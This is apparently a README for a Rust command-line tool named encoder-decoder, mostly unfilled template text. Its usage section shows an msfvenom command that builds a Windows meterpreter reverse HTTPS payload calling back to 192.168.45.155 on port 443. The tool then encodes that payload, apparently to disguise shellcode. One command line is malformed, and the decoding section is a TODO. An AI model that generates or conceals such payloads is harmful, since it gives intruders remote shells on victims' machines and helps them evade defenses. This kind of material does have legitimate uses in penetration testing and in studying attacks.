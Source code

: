 # encoder-decoder

A brief description of your CLI tool. What it does, why it exists, and any other important context.

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT)

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Options](#options)
- [License](#license)

## Installation

**From Source**:

```bash
git clone https://github.com/yourusername/CLI-ToolName.git
cd CLI-ToolName
cargo build --release
```

### Encoding

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.45.155 -f csharp -o raw_payload.cs

encoder-decoder encode -i raw_payload.cs -o encrypted_payload.cs

cat encrypted_payload.cs && key.txt
```

### Decoding
TODO
